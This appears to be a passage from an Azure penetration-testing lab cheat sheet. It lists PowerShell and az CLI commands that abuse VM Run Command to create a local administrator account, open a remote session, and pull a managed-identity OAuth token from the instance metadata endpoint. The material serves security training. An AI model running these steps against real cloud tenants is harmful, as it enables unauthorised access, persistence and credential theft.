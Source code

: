 #### Query ID of public ip adress to get the public ip
```
Get-AzPublicIpAddress -Name <ID OF PUBLIC IP ADRESSES IN IPCONFIGURATION>
```

#### Check role assignments on the VM
```
Get-AzRoleAssignment -Scope <RESOURCE ID>
```

#### Check the allowed actions of the role definition
```
Get-AzRoleDefinition -Name "<ROLE DEFINITION NAME>"
```

#### Run a command on the VM
```
Invoke-AzVMRunCommand -VMName <VM NAME> -ResourceGroupName <NAME> -CommandId 'RunPowerShellScript' -ScriptPath '<PATH TO .ps1 FILE>' -Verbose
```

#### Contents of adduser.ps1
```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USER> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```

#### Access the VM
```
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USER>', $Password)
$sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```

#### Execute privilege escalation or post exploitation

### Login on VM as managed idenity
```
az login –identity
```

#### List permissions of current subscription
- May have more permissions then the user
```
az role assignment list -–assignee ((az account list | ConvertFrom-Json).id)
```

#### If no AZ module can request token manually 
- Then use Azure REST APIs with the token
```
Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
```
